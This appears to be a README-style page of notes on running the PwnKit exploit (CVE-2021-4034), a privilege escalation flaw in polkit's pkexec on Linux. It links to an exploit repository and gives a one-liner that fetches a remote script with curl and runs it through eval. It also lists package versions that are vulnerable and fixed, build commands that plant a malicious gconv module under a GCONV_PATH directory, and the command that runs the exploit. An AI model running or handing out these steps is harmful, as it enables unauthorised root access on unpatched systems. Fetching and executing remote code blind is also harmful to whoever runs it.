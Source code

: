 ﻿# PwnKit

https://github.com/berdav/CVE-2021-4034

## Download

https://codeload.github.com/berdav/CVE-2021-4034/zip/main

## One-liner

    eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"

## Check

Command:

    apt-cache policy policykit-1

Vulnerable:

    policykit-1:
    Installed: 0.105-20ubuntu0.18.04.5
    Candidate: 0.105-20ubuntu0.18.04.5

Not vulnerable:

    policykit-1:
    Installed: 0.105-20ubuntu0.18.04.6
    Candidate: 0.105-20ubuntu0.18.04.6

## Build

With make

    make

Without make

    cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
    `cc -Wall    cve-2021-4034.c   -o cve-2021-4034`
    echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
    mkdir -p GCONV_PATH=.
    cp /usr/bin/true GCONV_PATH=./pwnkit.so:.

## Run

    ./cve-2021-4034

Example when not working:

    floki@vikings:~/CVE$ ./cve-2021-4034
    GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
    pkexec --version |
    --help |
    --disable-internal-agent |
    [--user username] PROGRAM [ARGUMENTS...]
    
    See the pkexec manual page for more details.
